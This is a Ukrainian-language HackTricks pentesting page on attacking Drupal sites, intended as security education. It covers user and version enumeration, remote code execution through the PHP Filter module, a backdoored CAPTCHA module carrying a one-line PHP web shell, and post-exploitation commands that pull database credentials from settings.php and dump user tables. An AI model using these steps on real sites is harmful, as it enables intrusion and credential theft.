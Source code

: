 # Drupal

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію рекламовану на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) **і** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **репозиторіїв на GitHub**.

</details>

## Відкриття

* Перевірте **мета**
```bash
curl https://www.drupal.org/ | grep 'content="Drupal'
```
* **Вузол**: Drupal **індексує свій вміст за допомогою вузлів**. Вузол може **містити будь-що**, таке як блоговий пост, опитування, стаття і т. д. URI сторінок зазвичай мають форму `/node/<ідентифікатор_вузла>`.
```bash
curl drupal-site.com/node/1
```
## Перелік

Drupal за замовчуванням підтримує **три типи користувачів**:

1. **`Адміністратор`**: Цей користувач має повний контроль над веб-сайтом Drupal.
2. **`Автентифікований користувач`**: Ці користувачі можуть увійти на веб-сайт та виконувати операції, такі як додавання та редагування статей на підставі їх дозволів.
3. **`Анонімний`**: Усі відвідувачі веб-сайту мають статус анонімних. За замовчуванням цим користувачам дозволено лише читати повідомлення.

### Версія

* Перевірте `/CHANGELOG.txt`
```bash
curl -s http://drupal-site.local/CHANGELOG.txt | grep -m2 ""

Drupal 7.57, 2018-02-21
```
{% hint style="info" %}
Нові установки Drupal за замовчуванням блокують доступ до файлів `CHANGELOG.txt` та `README.txt`.
{% endhint %}

### Перелік імен користувачів

#### Реєстрація

У _/user/register_ просто спробуйте створити ім'я користувача, і якщо ім'я вже зайняте, вас проінформують:

![](<../../.gitbook/assets/image (254).png>)

#### Запит нового пароля

Якщо ви запитуєте новий пароль для існуючого імені користувача:

![](<../../.gitbook/assets/image (255).png>)

Якщо ви запитуєте новий пароль для неіснуючого імені користувача:

![](<../../.gitbook/assets/image (256).png>)

### Отримання кількості користувачів

Звертаючись до _/user/\<number>_, ви можете побачити кількість існуючих користувачів, у цьому випадку це 2, оскільки _/users/3_ повертає помилку "не знайдено":

![](<../../.gitbook/assets/image (257).png>)

![](<../../.gitbook/assets/image (227) (1) (1).png>)

### Приховані сторінки

**Fuzz `/node/$`, де `$` - це число** (від 1 до 500, наприклад).\
Ви можете знайти **приховані сторінки** (тестові, розробницькі), які не вказані пошуковими системами.

#### Інформація про встановлені модулі
```bash
#From https://twitter.com/intigriti/status/1439192489093644292/photo/1
#Get info on installed modules
curl https://example.com/config/sync/core.extension.yml
curl https://example.com/core/core.services.yml

# Download content from files exposed in the previous step
curl https://example.com/config/sync/swiftmailer.transport.yml
```
### Автоматичний
```bash
droopescan scan drupal -u http://drupal-site.local
```
## RCE

### З модулем PHP Filter

{% hint style="warning" %}
У старіших версіях Drupal **(до версії 8)** було можливо увійти як адміністратор та **увімкнути модуль `PHP filter`**, який "Дозволяє виконувати вбудований PHP-код/фрагменти."
{% endhint %}

Вам потрібно, щоб **плагін php був встановлений** (перевірте це, звернувшись до _/modules/php_ і якщо повертає **403**, то **існує**, якщо **не знайдено**, то **плагін php не встановлений**)

Перейдіть до _Modules_ -> (**Перевірте**) _PHP Filter_ -> _Save configuration_

![](<../../.gitbook/assets/image (247) (1).png>)

Потім клацніть на _Add content_ -> Виберіть _Basic Page_ або _Article -_> Напишіть _php shellcode у тілі_ -> Виберіть _PHP code_ у _Text format_ -> Виберіть _Preview_

![](<../../.gitbook/assets/image (253) (1).png>)

Нарешті, просто зверніться до новоствореного вузла:
```bash
curl http://drupal-site.local/node/3
```
### Встановлення модуля PHP Filter

Починаючи з версії **8 і вище**, [**модуль PHP Filter**](https://www.drupal.org/project/php/releases/8.x-1.1) **не встановлюється за замовчуванням**. Для використання цієї функціональності нам потрібно **встановити модуль самостійно**.

1. Завантажте найновішу версію модуля з веб-сайту Drupal.
1. wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
2. Після завантаження перейдіть до **`Адміністрування`** > **`Звіти`** > **`Доступні оновлення`**.
3. Клацніть на **`Огляд`**, виберіть файл з каталогу, куди ми його завантажили, а потім клацніть **`Встановити`**.
4. Після встановлення модуля ми можемо клацнути на **`Вміст`** та **створити нову базову сторінку**, схожу на те, що ми робили в прикладі для Drupal 7. Знову переконайтеся, що ви **вибрали `PHP code` зі списку `Формат тексту`**.

### Модуль з backdoor

Модуль з backdoor можна створити, **додавши оболонку до існуючого модуля**. Модулі можна знайти на веб-сайті drupal.org. Давайте виберемо модуль, такий як [CAPTCHA](https://www.drupal.org/project/captcha). Прокрутіть вниз і скопіюйте посилання на tar.gz [архів](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz).

* Завантажте архів та розпакуйте його вміст.
```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```
* Створіть **PHP веб-оболонку** з таким вмістом:
```php
<?php
system($_GET["cmd"]);
?>
```
* Далі нам потрібно створити файл **`.htaccess`**, щоб надати собі доступ до папки. Це необхідно, оскільки Drupal відмовляє у прямому доступі до папки **`/modules`**.
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
* Конфігурація вище застосує правила для папки / при запиті файлу в /modules. Скопіюйте обидва цих файли в папку captcha та створіть архів.
```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
* Припускаючи, що у нас є **адміністративний доступ** до веб-сайту, клацніть на **`Керування`**, а потім на **`Розширення`** у бічній панелі. Далі клацніть на кнопку **`+ Встановити новий модуль`**, і ми будемо перенаправлені на сторінку встановлення, таку як `http://drupal-site.local/admin/modules/install`. Перейдіть до архіву з backdoored Captcha та клацніть **`Встановити`**.
* Після успішної установки перейдіть до **`/modules/captcha/shell.php`**, щоб виконати команди.

## Післяексплуатаційний етап

### Прочитайте settings.php
```
find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null
```
### Витягнути користувачів з БД
```
mysql -u drupaluser --password='2r9u8hu23t532erew' -e 'use drupal; select * from users'
```
## Посилання

* [https://academy.hackthebox.com/module/113/section/1209](https://academy.hackthebox.com/module/113/section/1209)

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримати HackTricks:

* Якщо ви хочете побачити вашу **компанію рекламовану на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) **і** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **репозиторіїв на GitHub**.

</details>
